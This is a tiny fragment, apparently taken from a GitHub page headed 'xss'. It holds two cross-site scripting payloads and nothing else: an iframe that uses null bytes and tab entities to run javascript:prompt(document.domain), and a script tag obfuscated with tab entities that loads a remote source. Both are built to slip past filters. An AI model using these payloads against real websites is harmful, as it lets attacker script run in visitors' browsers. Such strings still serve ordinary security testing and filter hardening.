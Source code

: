 # xss
<iframe %00 src="&Tab;javascript:prompt(document.domain)&Tab;"%00>
<script/&Tab; src='https://github.com' /&Tab;></script>
